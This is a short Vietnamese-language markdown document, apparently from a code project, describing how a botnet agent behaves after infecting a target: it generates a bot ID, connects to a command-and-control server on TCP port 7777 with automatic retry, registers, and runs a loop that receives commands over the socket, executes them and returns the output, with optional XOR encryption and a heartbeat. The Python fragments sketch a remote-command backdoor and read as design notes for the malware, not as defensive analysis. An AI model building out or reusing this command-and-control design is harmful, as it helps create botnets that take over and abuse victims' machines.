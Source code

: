 # 🤖 MALWARE OPERATION ANALYSIS - POST-INFECTION BEHAVIOR

## 📊 TỔNG QUAN HOẠT ĐỘNG SAU KHI INFECT THÀNH CÔNG

Sau khi infect thành công vào target system, malware sẽ hoạt động theo quy trình có cấu trúc và logic rõ ràng.

---

## 🔄 **QUY TRÌNH HOẠT ĐỘNG CHÍNH**

### **1. 🚀 PHASE 1: INITIALIZATION & CONNECTION**

#### **Bot Agent Startup:**
```python
# Bot tự tạo unique ID
bot_id = f"bot_{os.getpid()}_{int(time.time())}"

# Thông tin bot gửi về C2
bot_info = f"BOT_CONNECT:{bot_id}:{hostname}:{process_id}"
```

#### **Kết nối C2 Server:**
- **Target**: C2 Server địa chỉ được cấu hình
- **Port**: 7777 (Bot connection port)
- **Protocol**: TCP Socket connection
- **Timeout**: 10 giây cho connection attempt
- **Retry**: Tự động retry nếu connection fail

#### **Authentication Process:**
1. Bot gửi identification string
2. Đăng ký với C2 server
3. Nhận được acknowledgment từ C2
4. Chuyển sang listening mode

---

### **2. 📡 PHASE 2: COMMAND & CONTROL COMMUNICATION**

#### **Command Listening Loop:**
```python
while connected:
    command = socket.recv(1024).decode()
    response = execute_command(command)
    socket.send(response.encode())
```

#### **Communication Protocol:**
- **Encryption**: Optional XOR encryption
- **Format**: Plain text commands 
- **Response**: Structured response với status
- **Heartbeat**: Ping/Pong để maintain connection

---